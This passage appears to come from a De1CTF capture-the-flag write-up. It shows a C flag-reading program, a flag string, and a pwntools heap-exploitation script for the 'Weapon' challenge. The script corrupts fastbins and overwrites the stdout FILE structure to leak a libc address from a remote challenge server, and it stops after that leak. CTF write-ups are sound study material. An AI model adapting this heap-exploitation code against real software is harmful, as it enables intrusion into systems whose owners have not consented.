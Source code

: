 ```c
#include <stdio.h>
#include <unistd.h>

int main()
{
int fd;
char buf[100];
fd = open("/home/ctf/flag", 0);
read(fd, buf, 100);
printf("%s\n", buf);

return 0;
}
```
`de1ctf{Br3@king_th3_J4il}`

### Weapon

```python=
from pwn import *

#r = process(["./pwn"],env={"LD_PRELOAD":"./libc.so.6"})
r = remote("139.180.216.34", 8888)
def create(idx,size,content):
	r.sendlineafter(">>","1")	
	r.sendlineafter(":",str(size))
	r.sendlineafter(":",str(idx))
	r.sendafter(":",content)


def rename(idx,content):
	r.sendlineafter(">>","3")	
	r.sendlineafter(":",str(idx))
	r.sendafter(":",content)

def remove(idx):
	r.sendlineafter(">>","2")	
	r.sendlineafter(":",str(idx))


create(0,0x10,p64(0)+p64(0x21))
create(1,0x10,"a")
create(2,0x60,"a")
create(3,0x60,"a")
remove(0)
remove(1)
rename(1,p8(0x10))
create(0,0x10,"a")
create(0,0x10,p64(0)+p64(0x91))
remove(1)
create(4,0x60,"a")
offset = 0x25dd#int(raw_input(":"),16)
create(5,0x10,p16(offset))
rename(2,"\x00"*0x48+p64(0x71))
remove(3)
remove(4)
rename(4,"\x90")
create(7,0x60,"a")
create(7,0x60,"a")
create(7,0x60,"a")
rename(7,"\x00"*0x33+p64(0xfbad1800)+p64(0)*3+"\x00")
r.recvline()
libc = u64(r.recvuntil("Done")[64:72])-0x3c5600
```